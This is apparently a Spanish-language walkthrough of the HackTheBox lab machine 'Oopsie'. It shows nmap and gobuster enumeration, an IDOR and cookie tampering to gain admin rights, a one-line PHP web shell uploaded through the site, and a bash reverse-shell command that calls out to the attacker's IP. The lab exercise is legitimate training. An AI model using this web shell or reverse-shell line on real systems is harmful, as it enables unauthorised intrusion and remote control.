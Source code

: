 1)¿Con qué tipo de herramienta se puede interceptar el tráfico web?
	proxy

2)¿Cuál es la ruta al directorio en el servidor web que devuelve una página de inicio de sesión?
	/cdn-cgi/login
	Esto se respondio con el sitemap de caido y enumeracion de directorios con [[Gobuster]]

3)¿Qué se puede modificar en Firefox para acceder a la página de carga?
	cookie
	Esto por que en la pagina de uploads dice que tenemos que ser administrador, y eso se define en nuestro navegador por las cookies

4)¿Cuál es el ID de acceso del usuario admin?
	34322
	Esta respondido antes del cookie hijacking

5)Al cargar un archivo, ¿en qué directorio aparece ese archivo en el servidor?
	/uploads
	![[Oopsie11.png]]

6)¿Cuál es el archivo que contiene la contraseña que se comparte con el usuario robert?
	










-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.207.226
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.207.226 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.207.226 -oN target
```

![[Oopsie1.png]]

![[Oopsie2.png]]
Por el ttl cercano a 64 es una maquina linux
*Puertos*
`22` SSH
`80`HTTP apache


----
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

![[Oopsie3.png]]

No nos da ningun dato relevante

------
# Vamos a interceptar con [[Caido]]

Aceptamos la primera peticion de la pagina, para que pase todo el trafico asi se genera un sitemap

![[Oopsie5.png]]
Ahora tenemos una carpeta que se llama cdn-cgi
Con [[Gobuster]] `gobuster dir -u http://10.129.207.226/cdn-cgi/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 50` vamos a buscar posibles directorios y nos da que existe el directorio login

![[Oopsie4.png]]

--------
# Ingreso al panel de login

http://10.129.207.226/cdn-cgi/login/

![[Oopsie6.png]]
Entramos con ``login as a guest``

Ahora vamos a account
![[Oopsie7.png]]

Y vemos que somos el usuario id 2, normalmente el usuario admin es el id 1 por que es el primero en crearse
![[Oopsie8.png]]

Cambiamos el link a `http://10.129.207.226/cdn-cgi/login/admin.php?content=accounts&id=1`

![[Oopsie9.png]]
Y vemos el id del usuario admin, ahora vamos a cambiar los valores de la cookie para robarnos las credenciales

------
# Cookie Hijacking

Con el user id 34322 y el name de admin, que sacamos antes, vamos a apretar en el navegador CTRL + SHIFT + I
Se nos va a abrir esto y vamos a cambiar el valor role `guest` a `admin` y el valor de user `2233` a `34322`

![[Oopsie10.png]]
Reiniciamos y la pagina, y ya estamos como el usuario admin

---------
# Arbitrary file upload

![[Oopsie12.png]]

Desde la parte de uploads, vamos a cargar un [[archivo php inyección comandos]]

`test.php`
```
<?php system($_GET["cmd"]); ?>
```
Lo subimos con este contenido, en uno de nuestros primeros intentos de enumerar, habiamos visto que existe el directorio uploads
![[Oopsie11.png]]

Entonces desde el directorio uploads vamos a intentar inyectar comandos con la utilidad que subimos
http://10.129.207.226/uploads/test.php?cmd=whoami
![[Oopsie13.png]]
Nos responde www-data asi que funciona correctamente

------
# [[Reverse shell]]

Con el archivo que subimos antes, vamos a ejecutar la revershell
http://10.129.207.226/uploads/test.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/443 0>%261'

![[Oopsie14.png]]
Mientras estamos en escucha con [[nc -nlvp 443]]

![[Oopsie15.png]]
Ya estamos dentro de la maquina, ahora hacemos un [[Tratamiento de la TTY]]




-------
# Notas

Para el sitemap si usamos caido, no nos va a detectar el directorio login, pero con burpsuite

------
# Creditos
Writeup oficial HackTheBox
